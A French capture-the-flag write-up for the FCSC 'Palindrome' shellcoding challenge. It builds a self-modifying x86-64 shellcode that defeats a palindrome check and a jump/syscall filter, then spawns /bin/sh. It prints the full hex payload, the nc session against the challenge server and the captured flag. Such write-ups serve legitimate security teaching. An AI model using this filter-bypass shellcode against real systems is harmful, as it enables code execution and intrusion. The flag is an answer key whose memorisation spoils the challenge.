





# pwn - Palindrome

## Courte description du challenge
Challenge de shellcoding qui réinitialise tous les registres sauf rsp à 0 avant
l'exécution du shellcode, et ajoute une instruction `syscall` à la fin du
shellcode. Il vérifie aussi que le shellcode est un palindrome, et qu'il ne
contient pas d'instructions qui permettent de contrôler rip ou d'exécuter des
appels systèmes (`jmp`, `call`, `ret`, `int`, `syscall`, ...).  
Résolution : On peut donc ajouter à la fin de notre shellcode le shellcode
inversé et remplacer à l'exécution la partie inversée du shellcode par des
`nop`.

---



Voici le code source de `run.py` s'occupant de faire des vérifications sur
notre shellcode et de convertir l'hexadécimal en octets :
```py
  1 import os
  2 import sys
  3 import tempfile
  4 import subprocess
  5 from capstone import *
  6
  7 def isInvalid(ins):
  8     forbidden = [CS_GRP_JUMP, CS_GRP_CALL, CS_GRP_RET, CS_GRP_INT,
  9         CS_GRP_IRET] # CS_GRP_BRANCH_RELATIVE only exists in C
 10     return any(filter(lambda group: group in forbidden, ins.groups))
 11
 12 def check(SC):
 13     md = Cs(CS_ARCH_X86, CS_MODE_64)
 14     md.detail = True
 15     ok = True
 16     for i in md.disasm(SC, 0):
 17         ok &= not isInvalid(i)
 18     return ok and (SC == SC[::-1])
 19
 20 def run(SC):
 21     tmp = tempfile.mkdtemp(dir = "/dev/shm/", prefix = bytes.hex(os.urandom(8)))
 22     fn = os.path.join(tmp, "shellcode")
 23     with open(fn, "wb") as f:
 24         f.write(SC)
 25
 26     try:
 27         subprocess.run(["./execut0r", fn], stderr = sys.stdout, timeout = 120)
 28     except:
 29         pass
 30
 31     os.remove(fn)
 32     os.rmdir(tmp)
 33
 34 if __name__ == "__main__":
 35
 36     print("Enter your shellcode (hex, at most 1024 bytes):")
 37     try:
 38         SC = bytes.fromhex(input())
 39
 40         assert len(SC) <= 1024
 41         assert check(SC)
 42
 43         prolog = bytes.fromhex("4831C04831DB4831C94831D24831FF4831F64D31C0"
                + "4D31C94D31D24D31DB4D31E44D31ED4D31F64D31FF4831ED")
 44         epilog = bytes.fromhex("0f05")
 45         run(prolog + SC + epilog)
 46     except:
 47         print("Please check your input.")
 48         exit(1)
```

Et celui de `execut0r` qui ne fait rien de plus qu'exécuter le shellcode :
```c
  1 //gcc -Wall -Wextra -z execstack execut0r.c -o execut0r
  2 #include <stdio.h>
  3 #include <stdlib.h>
  4 #include <stdint.h>
  5 #include <unistd.h>
  6
  7 int main (int argc, char **argv) {
  8         if (argc != 2) {
  9                 printf("Usage: %s <shellcode_file>\n", argv[0]);
 10                 exit(1);
 11         }
 12         uint8_t sc[1024];
 13         FILE *fp = fopen(argv[1], "r");
 14         fread(sc, sizeof(sc), 1, fp);
 15         fclose(fp);
 16         ((void (*) (void)) sc) ();
 17         return EXIT_SUCCESS;
 18 }
```

## Contraintes sur le shellcode

Le challenge lit un shellcode encodé en hexadécimal. Il vérifie
ensuite que la taille du shellcode décodé n'excède pas 1024, et effectue
quelques vérifications à propos de la validité du shellcode :
```py
 34 if __name__ == "__main__":
 35
 36     print("Enter your shellcode (hex, at most 1024 bytes):")
 37     try:
 38         SC = bytes.fromhex(input())
 39
 40         assert len(SC) <= 1024
 41         assert check(SC)
```

Voici le code de la fonction `check` :
```py
 12 def check(SC):
 13     md = Cs(CS_ARCH_X86, CS_MODE_64)
 14     md.detail = True
 15     ok = True
 16     for i in md.disasm(SC, 0):
 17         ok &= not isInvalid(i)
 18     return ok and (SC == SC[::-1])
```

Pour que la fonction `check` renvoie vrai, il faut que pour chaque instruction
`i` du shellcode, l'appel `isInvalid(i)` renvoie faux, et que le shellcode soit
un palindrome (`SC == SC[::-1]`), c'est-à-dire, que le shellcode est
équivalent, octet par octet, à son inverse.  
  
Intéressons nous maintenant à la fonction `isInvalid` :
```py
  7 def isInvalid(ins):
  8     forbidden = [CS_GRP_JUMP, CS_GRP_CALL, CS_GRP_RET, CS_GRP_INT,
  9         CS_GRP_IRET] # CS_GRP_BRANCH_RELATIVE only exists in C
 10     return any(filter(lambda group: group in forbidden, ins.groups))
```
Elle vérifie si le groupe de l'instruction (`ins.groups`) est présent dans
`forbidden`, et dans ce cas, renvoie vrai. Cela nous empêche d'utiliser les
instructions `jmp`, `jnz`, ..., `call`, `ret`, `int` ou `syscall`.  
  
Continuons la lecture du main de `run.py` :
```py
 43         prolog = bytes.fromhex("4831C04831DB4831C94831D24831FF4831F64D31C0"
                + "4D31C94D31D24D31DB4D31E44D31ED4D31F64D31FF4831ED")
 44         epilog = bytes.fromhex("0f05")
 45         run(prolog + SC + epilog)
```

Des octets sont rajoutés au début et à la fin de notre shellcode, qui
correspondent respectivement aux instructions
```
<CsInsn 0x0 [4831c0]: xor rax, rax>
<CsInsn 0x3 [4831db]: xor rbx, rbx>
<CsInsn 0x6 [4831c9]: xor rcx, rcx>
<CsInsn 0x9 [4831d2]: xor rdx, rdx>
<CsInsn 0xc [4831ff]: xor rdi, rdi>
<CsInsn 0xf [4831f6]: xor rsi, rsi>
<CsInsn 0x12 [4d31c0]: xor r8, r8>
<CsInsn 0x15 [4d31c9]: xor r9, r9>
<CsInsn 0x18 [4d31d2]: xor r10, r10>
<CsInsn 0x1b [4d31db]: xor r11, r11>
<CsInsn 0x1e [4d31e4]: xor r12, r12>
<CsInsn 0x21 [4d31ed]: xor r13, r13>
<CsInsn 0x24 [4d31f6]: xor r14, r14>
<CsInsn 0x27 [4d31ff]: xor r15, r15>
<CsInsn 0x2a [4831ed]: xor rbp, rbp>
```
et
```
CS_GRP_INT <CsInsn 0x0 [0f05]: syscall >
```

Tous les registres sont réinitialisés à zero avant l'exécution de notre
shellcode, à l'exception de `rsp`. À la fin, l'instruction `syscall` est
exécutée.  
  
La fonction `run` convertit le shellcode encodé en hexadécimal, en octets et
l'exécute grâce à `execut0r`. `execut0r`, lui, exécute tout simplement le
fichier qui lui est passé en paramètre. Rien d'intéressant là non plus.

## Construction du shellcode
J'ai tout d'abord créé un fichier `disass.py` qui affiche pour chaque instruction de
mon shellcode le groupe capstone auquel elle appartient. Il génère aussi la
partie inverse du shellcode et encode le tout en hexadécimal, et affiche
également si le shellcode passe toutes les vérifications.
Voici le code de `disass.py` qui reprend en grande partie celui de `run.py` :
```py
from capstone import *
import sys

groups = dict(zip([CS_GRP_JUMP, CS_GRP_CALL, CS_GRP_RET, CS_GRP_INT,
                   CS_GRP_IRET, CS_GRP_INVALID, CS_GRP_PRIVILEGE],
                  ["CS_GRP_JUMP", "CS_GRP_CALL", "CS_GRP_RET", "CS_GRP_INT",
                   "CS_GRP_IRET"]))

def isInvalid(ins):
    forbidden = [CS_GRP_JUMP, CS_GRP_CALL, CS_GRP_RET, CS_GRP_INT,
        CS_GRP_IRET] # CS_GRP_BRANCH_RELATIVE only exists in C
    return any(filter(lambda group: group in forbidden, ins.groups))

def check(SC):
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True
    ok = True
    for i in md.disasm(SC, 0):
        for g in i.groups:
            try:
                print(groups[g], end=" ")
            except KeyError:
                pass
        print(i)

        ok &= not isInvalid(i)
    return ok and (SC == SC[::-1])

SC = bytes.fromhex(open(sys.argv[1]).read().strip())
SC += SC[::-1]
print(len(SC))

assert len(SC) <= 1024

prolog = bytes.fromhex("4831C04831DB4831C94831D24831FF4831F64D31C04D31C94D31D2"
    + "4D31DB4D31E44D31ED4D31F64D31FF4831ED")
epilog = bytes.fromhex("0f05")
print(SC.hex())
with open("shellcode", "wb") as f:
    f.write(prolog + SC + epilog)

print(check(SC))
```

---

Pour que notre shellcode soit valide, il faut :  

- qu'il ai une taille inférieure ou égale à 1024
- que ce soit un palindrome
- qu'il ne contienne pas d'instructions `jmp`, `jnz`, ..., `call`, `ret`, `int` ou `syscall`

Une condition simple à contourner est le fait que notre shellcode doit être un
palindrome. En effet, il est possible de rajouter l'inverse de notre shellcode
à la fin de celui-ci pour qu'il devienne palindrome, la condition sur la taille
de notre shellcode, passerait donc à 512 octets "utiles".  
En revanche, la partie inversée du shellcode sera également exécutée, et il ne
faut pas qu'elle fasse planter l'exécution.  
Afin de résoudre ce problème, on peut, à l'exécution, remplacer tous ses octets
par des 0x90, ce qui correspond à l'instuction `nop`, équivalente à "ne rien
faire".
Problème, pour cela il faut connaître l'adresse des instructions à changer, et
il faut faire une boucle, qui nécessite des instructions `jmp`.

Rappelons-nous, le prologue réinitialise tous les registres à 0 **sauf `rsp`**.
On peut donc se servir de `rsp` pour retrouver l'adresse de nos instructions.
Voici l'état des registres dans gdb, au moment où notre shellcode est exécuté :

  

On remarque que `rip` et `rsp` sont très proches, que le shellcode est sur la
stack. On peut donc récupérer l'adresse de notre shellcode grâce à `rsp`.



Le shellcode se trouve donc à `rsp+0x45`.
Le début de notre shellcode ressemblera donc à :
```asm
bits 64

lea rdi, [rsp+0x45] ; rdi = debut shellcode
```

On assemble :
```sh
$ nasm -f bin shellcode.asm -o shellcode && xxd -p shellcode > shellcode.hex \
    && python3 disass.py shellcode.hex
```
et on teste dans gdb :



Maintenant que l'on a l'adresse de notre shellcode, on sait où se trouvent les
octets à remplacer par 0x90 : `adresse shellcode + taille shellcode`.
Pour connaître la taille de notre shellcode, on s'aide de la sortie de
`disass.py` :
```
18
488d7c24454883c70909c7834845247c8d48
<CsInsn 0x0 [488d7c2445]: lea rdi, [rsp + 0x45]>
<CsInsn 0x5 [4883c709]: add rdi, 9>
<CsInsn 0x9 [09c7]: or edi, eax>
<CsInsn 0xb [83484524]: or dword ptr [rax + 0x45], 0x24>
CS_GRP_JUMP <CsInsn 0xf [7c8d]: jl 0xffffffffffffff9e>
False
```

Ce qui donne :
```asm
bits 64

lea rdi, [rsp+0x45] ; rdi = debut shellcode
add rdi, 0x9 ; taille shellcode
```

On veut maintenant remplacer `taille shellcode` octets par des nop à partir de
l'adresse `adresse shellcode + taille shellcode`. Il va donc nous falloir une
boucle.
Comme les instructions `jmp` sont interdites, on peut modifier notre shellcode à
l'exécution. On s'aide pour cela de `disass.py` pour connaître les octets qui
composent notre jump.
```asm
bits 64

%define SIZE 0x13

lea rdi, [rsp+0x45] ; rdi = debut shellcode
add rdi, SIZE ; taille shellcode

loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    jnz loop
```

```sh
$ nasm -f bin shellcode.asm -o shellcode && xxd -p shellcode | tr -d '\n' > shellcode.hex \
    && python3 disass.py shellcode.hex
38
488d7c24454883c713c6040790fec03c1375f6f675133cc0fe900704c613c7834845247c8d48
<CsInsn 0x0 [488d7c2445]: lea rdi, [rsp + 0x45]>
<CsInsn 0x5 [4883c713]: add rdi, 0x13>
<CsInsn 0x9 [c6040790]: mov byte ptr [rdi + rax], 0x90>
<CsInsn 0xd [fec0]: inc al>
<CsInsn 0xf [3c13]: cmp al, 0x13>
CS_GRP_JUMP <CsInsn 0x11 [75f6]: jne 9> <------------ ici
<CsInsn 0x13 [f67513]: div byte ptr [rbp + 0x13]>
<CsInsn 0x16 [3cc0]: cmp al, 0xc0>
False
```

(On remarque le "False" à la fin, le shellcode n'a donc pas passé l'ensemble des
tests puisqu'il contient une instruction jump.)  
On doit donc remplacer les octets aux places 0x11 et 0x12 par, respectivement
0x75 et 0xf6 grâce à :
```asm
mov BYTE [rdi+0x11], 0x75
mov BYTE [rdi+0x12], 0xf6
```

On peut mettre en commentaire le `jnz loop` et le rempacer par deux instructions
`nop`.  
On recompile une première fois pour obtenir la taille du shellcode et ajuster
l'emplacement de l'instruction `jnz loop`. Et une seconde fois après avoir
modifié cette taille dans notre shellcode. Ce qui donne :
```asm
bits 64

%define SIZE 0x1b

lea rdi, [rsp+0x45] ; rdi = debut shellcode

; reconstruire le jnz loop
mov BYTE [rdi+0x19], 0x75
mov BYTE [rdi+0x1a], 0xf6

add rdi, SIZE ; taille shellcode


loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    ;jnz loop
    nop
    nop
```

Voici le résultat dans gdb après l'exécution de notre shellcode :
```
   0x7fffffffe381:      xor    eax,eax
   0x7fffffffe383:      xor    rbx,rbx
   0x7fffffffe386:      xor    rcx,rcx
   0x7fffffffe389:      xor    rdx,rdx
   0x7fffffffe38c:      xor    rdi,rdi
   0x7fffffffe38f:      xor    rsi,rsi
   0x7fffffffe392:      xor    r8,r8
   0x7fffffffe395:      xor    r9,r9
   0x7fffffffe398:      xor    r10,r10
   0x7fffffffe39b:      xor    r11,r11
   0x7fffffffe39e:      xor    r12,r12
   0x7fffffffe3a1:      xor    r13,r13
   0x7fffffffe3a4:      xor    r14,r14
   0x7fffffffe3a7:      xor    r15,r15
   0x7fffffffe3aa:      xor    rbp,rbp
   0x7fffffffe3ad:      lea    rdi,[rsp+0x45]
   0x7fffffffe3b2:      mov    BYTE PTR [rdi+0x19],0x75
   0x7fffffffe3b6:      mov    BYTE PTR [rdi+0x1a],0xf6
   0x7fffffffe3ba:      add    rdi,0x1b
   0x7fffffffe3be:      mov    BYTE PTR [rdi+rax*1],0x90
   0x7fffffffe3c2:      inc    al
   0x7fffffffe3c4:      cmp    al,0x1b
   0x7fffffffe3c6:      jne    0x7fffffffe3be
=> 0x7fffffffe3c8:      nop
   0x7fffffffe3c9:      nop
[...]
   0x7fffffffe3e1:      nop
   0x7fffffffe3e2:      nop
   0x7fffffffe3e3:      syscall
```

On exécute bien notre shellcode et uniquement notre shellcode, jusqu'au `syscall`.
Il ne nous reste plus qu'à écrire à la suite un shellcode classique qui exécute
`execve("/bin/sh", ["/bin/sh", NULL], NULL)` à l'aide de l'instruction
`syscall` placée à la fin.
```asm
bits 64

%define SIZE 0x33

lea rdi, [rsp+0x45] ; rdi = debut shellcode

; reconstruire le jnz loop
mov BYTE [rdi+0x19], 0x75
mov BYTE [rdi+0x1a], 0xf6

add rdi, SIZE ; taille shellcode

loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    ;jnz loop
    nop
    nop

; execve /bin/sh
mov rax, "/bin/sh"
push rax
mov rdi, rsp

push rbx
push rdi
mov rsi, rsp

mov rax, 59
```

Résultat dans gdb :



Les arguments pour `execve` correspondent bien.  
On essaie notre shellcode en-dehors de gdb :
```
$ ./execut0r shellcode
sh-5.1$ echo 'pwned'
pwned
sh-5.1$ exit
exit
```

Et on récupère le flag (la chaine en hexadécimal est renvoyée par `disass.py`):
```sh
$ (echo '488d7c2445c6471975c6471af64883c733c6040790fec03c33909048b82f62696e2f7' \
    '36800504889e753574889e6b83b0000000000003bb8e689485753e78948500068732f6e69' \
    '622fb8489090333cc0fe900704c633c78348f61a47c6751947c645247c8d48' | tr -d ' '; cat -) \
  | nc challenges.france-cybersecurity-challenge.fr 2054
Enter your shellcode (hex, at most 1024 bytes):
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -la
total 36
drwxr-xr-x 1 root root  4096 Apr 29 08:07 .
drwxr-xr-x 1 root root  4096 Apr 29 08:07 ..
-r-x------ 1 ctf  ctf  16816 Apr 29 08:07 execut0r
-r-------- 1 ctf  ctf     71 Apr 29 08:07 flag.txt
-r-x------ 1 ctf  ctf   1154 Apr 29 08:07 run.py
cat flag.txt
FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}
exit
```

---

J'avais initialement fait des xor pour remplacer les instructions du shellcode
inversé par des NOPs.  
Une autre solution ~~plus simple x)~~ aurait été de changer une instruction en
`syscall`, comme on l'a fait pour le `jnz` et ne pas se préoccuper de la partie
du shellcode que l'on a inversé puisque l'on aura notre shell avant son exécution.
